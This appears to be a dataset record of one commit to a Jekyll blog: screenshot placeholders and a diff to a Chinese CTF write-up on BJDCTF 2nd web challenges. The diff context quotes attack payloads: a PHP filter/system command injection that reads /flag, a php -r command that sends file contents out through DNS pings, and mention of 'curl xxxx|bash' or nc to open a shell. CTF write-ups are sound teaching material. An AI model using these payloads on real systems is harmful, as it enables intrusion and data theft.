

Before and after one commit to glyuan419/glyuan419.github.io, a Jekyll site: the page built from _posts/CTF Writeup/2020-03-23-BJDCTF-2nd-Web.md, in a window 1280 px wide. Shown: the part 2014-3919 px from the top of the page at 82% size, without its empty margins (428-1111 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
upload posts

````diff
--- a/_posts/CTF Writeup/2020-03-23-BJDCTF-2nd-Web.md
+++ b/_posts/CTF Writeup/2020-03-23-BJDCTF-2nd-Web.md
@@ -99,7 +99,6 @@ POST：_method=__construct&filter[]=system&server[REQUEST_METHOD]=cat /flag
 
 源码删减：
 
-```php
 {% highlight php linenos %}
 <?php
 error_reporting(0);
@@ -118,8 +117,6 @@ if (!isset($_POST['girl_friend'])) {
     }
 }
 {% endhighlight %}
-```
-
 
 拦截形同虚设，可以用"php -r"执行PHP代码。不过没有回显，需要将结果打到DNS上。
 
@@ -149,7 +146,7 @@ POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /etc/demo/P3rh
 
 ## 备注
 
-1. 后来看题解，发现我好像非预期了，.bash_history是个意外，预期思路应该是用nc命令或者curl xxx|bash弹Shell，然后find一下flag。
+1. 后来看题解，发现我好像非预期了，.bash_history是个意外，预期思路应该是用nc命令或者curl xxxx\|bash弹Shell，然后find一下flag。
 
 2. 因为find命令会返回不止一行，而我的方法是利用了system()的返回，所以不太好用。当然也不是不可以，可以先将find的返回保存到变量foo中，然后echo一下\${foo}。至于"$"符号的绕过，可以先将命令base64编码，传到服务器再解码，然后重定向到bash里，Payload大概长这样：
 
````
Also changed, not shown: 2 other files.
